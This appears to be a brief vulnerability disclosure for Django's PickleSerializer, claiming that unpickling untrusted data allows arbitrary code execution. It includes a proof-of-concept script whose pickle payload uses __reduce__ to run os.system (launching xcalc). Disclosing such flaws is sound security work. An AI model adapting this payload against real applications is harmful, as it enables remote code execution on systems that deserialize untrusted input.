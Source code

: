 # Description
Django is a high-level Python Web framework that encourages rapid development and clean, pragmatic design.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install django')
from django.contrib.sessions import serializers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serializers.PickleSerializer.loads(dumps,dumps)
```
* `pip3 install django`
* `python3 exploit.py`
